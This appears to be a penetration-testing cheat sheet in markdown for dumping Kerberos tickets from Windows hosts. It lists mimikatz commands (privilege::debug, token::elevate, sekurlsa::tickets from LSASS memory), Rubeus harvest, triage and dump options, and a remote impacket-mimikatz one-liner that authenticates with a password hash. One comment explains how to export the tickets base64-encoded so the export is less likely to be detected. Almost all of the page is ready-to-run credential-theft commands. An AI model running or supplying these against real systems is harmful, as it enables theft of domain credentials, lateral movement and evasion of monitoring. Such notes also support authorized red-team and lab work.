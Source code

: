 ```shell
klist
```
## mimikatz / rubeus
```shell
privilege::debug
token::elevate

# Current Session tickets on the host
kerberos::tgt
kerberos::list

# ALL Tickets from ALL Sessions on the host
sekurlsa::tickets

# injects into LSASS memory so don’t do it if there’s a monitoring service
# add /export to any of these to export but first base64 /out:true and base64 /in:true to export base64 encoded (less likely to be detected)


# Rubeus
# List Current session TGT (interval is the time between harvests in sec )
.\Rubeus.exe harvest /interval:30

# List Current session all tickets with logon id and expiration time
.\Rubeus.exe triage

# List Current session tickets with detailed info
.\Rubeus.exe klist

# Exxtract All tickets (basically /export for mimikatz)
.\Rubeus.exe dump
# /user:[user] for a specific user
# /service:[service] for a specific service
# /luid:[logon id] for specific session, if we have access to all sessions (admin)
# /nowrap ⇒ easier copy-and-paste
```
## impacket-mimikatz
```shell
# 1 need to run rpc::server from mimikatz
privilege::debug
token::elevate

rpc::server
> BindString[0]: ncacn_ip_tcp:DC[61057]


# 2 Can run mimikatz shell now
impacket-mimikatz -dc-ip `dc` `dom`/'user':['pass']@`tip` -H :HASH


# ONE liner
impacket-mimikatz "privilege::debug; token::elevate; sekurlsa::tickets"
```
